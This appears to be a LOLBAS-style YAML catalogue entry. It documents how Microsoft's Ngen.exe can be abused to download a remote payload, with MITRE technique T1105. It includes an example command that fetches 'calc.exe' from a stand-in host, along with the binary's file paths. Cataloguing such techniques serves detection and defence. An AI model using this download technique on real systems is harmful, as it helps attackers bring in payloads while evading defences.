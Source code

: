 ```yaml
---
Name: Ngen.exe
Description: Microsoft Native Image Generator.
Author: Avihay Eldad
Created: 2024-02-19
Commands:
  - Command: ngen.exe http://example.com/calc.exe
    Description: Downloads payload from remote server using the Microsoft Native Image Generator utility.
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\ngen.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ngen.exe
  - Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\ngen.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\ngen.exe
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

